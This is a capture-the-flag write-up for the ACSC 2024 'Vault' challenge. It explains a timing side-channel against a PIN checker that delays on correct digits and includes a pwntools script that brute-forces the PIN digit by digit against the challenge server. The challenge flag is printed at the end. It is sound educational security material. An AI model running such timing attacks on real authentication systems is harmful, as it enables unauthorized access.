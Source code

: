 ```yaml
---
title: ACSC - [Vault]
tags:
  - CTF
  - Write-up
  - acsc
  - hardware-hacking
  - side-channel
categories:
  - CTF
  - Write Up
---
```

![[Screenshot 2024-04-01 at 21.54.50.png]]
# Prologue
An online CTF competition by ACSC, this competition is qualification for competing in ICC for ASIA category.

![[dist-vault-bc8867dde0e36ae6cbd0e4c82707e2b78e4e5233.tar.gz]]
# Write Up
## TL;DR Solution

Exploiting side-channel attack to guess the PIN, if the PIN is correct it will delayed 100000ms.
## Detailed Explanation

### Initial Analysis

We were given a binary and a configuration server.
![[Screenshot 2024-04-01 at 22.04.16.png]]

Looking at the `main` function, we can see that it will check the length of input, and then for every input characters will be xor-ed with the key. If it wrong, it will delayed for 100000ms.

We can check all the possibility number 0-9. And then pick few samples and calculate the average. After that, check which numbers that get the longest time to execute.

Fortunately, the configuration already has a [time](https://man7.org/linux/man-pages/man1/time.1.html) command. We can make use of this command to get the time needed for execute without problem if we had a bad connection.
### Exploitation

```python
from pwn import *
import re 

p = remote('vault.chal.2024.ctf.acsc.asia', 9999)

TRIES = 10
KNOWN = ""

while len(KNOWN) != 10:
    times = {
        0: [],
        1: [],
        2: [],
        3: [],
        4: [],
        5: [],
        6: [],
        7: [],
        8: [],
        9: [],
    }
    for x in range(0, 10):
        for y in range(TRIES):
            p.sendlineafter('user@NSJAIL:/home/user$ ', "time ./chall")
            a = p.sendlineafter(b'Enter your PIN: ', f"{KNOWN}{str(x)*(10-len(KNOWN))}")
            p.recvline()
            p.recvline()
            p.recvline()
            a = p.recvline().decode().strip()
            r = re.compile("real\s+0m\d.\d+s")
            a = r.search(a).group().replace("real\t0m", "").replace("s", "")
            print(x, a)
            times[x].append(float(a))
    for x in range(10):
        avg = sum(times[x])/TRIES
        times[x] = avg
    m = str(max(times, key=times.get))
    print(m)
    KNOWN += m
    print(KNOWN)

avg_time = []

print(max(times, key=times.get))
```

After letting run for awhile, we get the PIN and the flag too.
![[Screenshot 2024-04-01 at 23.03.42.png]]

FLAG: `ACSC{b377er_d3L4y3d_7h4n_N3v3r_b42fd3d840948f3e}`







